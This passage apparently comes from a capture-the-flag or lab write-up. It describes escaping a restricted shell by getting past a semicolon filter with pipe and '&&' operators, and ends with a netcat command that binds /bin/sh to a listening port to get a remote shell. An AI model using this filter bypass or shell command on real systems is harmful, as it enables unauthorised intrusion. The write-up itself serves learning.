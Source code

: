 __Bingo!!!__ 


But it wasn't fully funcional shell as I thought, only couple of commands were available and every attempt to use any other command or split commands with eg. ```;``` finished with sad message that I was caught:

![](assets/6.png)


But there was one thing: I found that I can bypass this using ```|``` (pipe) or  ```&&``` operators:

![](assets/7.png)

That was almost all I needed!
But I needed better interaction with this shell. How about ```nc``` (netcat)? Here's the simplest way to get a shell on remote system:

```
$ nc -l 8888 -e /bin/sh
```
